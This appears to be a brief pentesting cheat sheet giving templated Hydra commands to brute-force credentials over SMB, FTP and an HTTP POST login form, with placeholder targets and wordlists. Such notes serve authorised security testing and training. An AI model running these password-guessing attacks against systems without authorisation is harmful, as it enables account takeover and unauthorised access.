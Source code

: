 # Brute force passwords over SMB
```sh
hydra -l <user> -P <path_to_passwords> smb://<ip>
```

# Brute force usernames and passwords over FTP
```sh
hydra -L <path_to_usernames> -P <path_to_passwords> -u -e snr -s <port> <ip> ftp
```

# Brute force usernames and passwords over HTTP-POST-FORM
```sh
hydra -L <path_to_usernames> -P <path_to_passwords> -s <port> <ip> http-post-form "/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Incorrect information"
# "page:payload:error"
```
